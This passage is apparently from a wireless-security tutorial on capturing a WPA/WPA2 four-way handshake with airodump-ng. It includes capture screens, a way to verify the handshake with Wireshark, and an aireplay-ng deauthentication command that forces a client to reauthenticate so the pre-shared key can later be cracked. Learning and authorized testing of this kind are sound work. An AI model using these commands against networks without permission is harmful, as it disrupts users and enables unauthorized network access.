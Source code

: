  CH  9 ][ Elapsed: 4 s ][ 2007-03-24 16:58 ][ WPA handshake: 00:14:6C:7E:40:80
                                                                                                               
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                               
  00:14:6C:7E:40:80   39 100       51      116   14   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                               
  BSSID              STATION            PWR  Lost  Packets  Probes                                             
                                                                                                               
  00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35     0      116  
In the screen above, notice the “WPA handshake: 00:14:6C:7E:40:80” in the top right-hand corner. This means airodump-ng has successfully captured the four-way handshake.

Here it is with no connected wireless clients:

  CH  9 ][ Elapsed: 4 s ][ 2007-03-24 17:51 
                                                                                                               
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                               
  00:14:6C:7E:40:80   39 100       51        0    0   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                               
  BSSID              STATION            PWR  Lost  Packets  Probes                                             
Troubleshooting Tip
See the Troubleshooting Tips section below for ideas.

To see if you captured any handshake packets, there are two ways. Watch the airodump-ng screen for “ WPA handshake: 00:14:6C:7E:40:80” in the top right-hand corner. This means a four-way handshake was successfully captured. See just above for an example screenshot.

Use Wireshark and apply a filter of “eapol”. This displays only eapol packets you are interested in. Thus you can see if capture contains 0,1,2,3 or 4 eapol packets.

Step 3 - Use aireplay-ng to deauthenticate the wireless client
This step is optional. If you are patient, you can wait until airodump-ng captures a handshake when one or more clients connect to the AP. You only perform this step if you opted to actively speed up the process. The other constraint is that there must be a wireless client currently associated with the AP. If there is no wireless client currently associated with the AP, then you have to be patient and wait for one to connect to the AP so that a handshake can be captured. Needless to say, if a wireless client shows up later and airodump-ng did not capture the handshake, you can backtrack and perform this step.

This step sends a message to the wireless client saying that that it is no longer associated with the AP. The wireless client will then hopefully reauthenticate with the AP. The reauthentication is what generates the 4-way authentication handshake we are interested in collecting. This is what we use to break the WPA/WPA2 pre-shared key.

Based on the output of airodump-ng in the previous step, you determine a client which is currently connected. You need the MAC address for the following. Open another console session and enter:

 aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 ath0
Where:

-0 means deauthentication
1 is the number of deauths to send (you can send multiple if you wish)
-a 00:14:6C:7E:40:80 is the MAC address of the access point
-c 00:0F:B5:FD:FB:C2 is the MAC address of the client you are deauthing
ath0 is the interface name
Here is what the output looks like:

 11:09:28  Sending DeAuth to station   -- STMAC: [00:0F:B5:34:30:30]
With luck this causes the client to reauthenticate and yield the 4-way handshake.

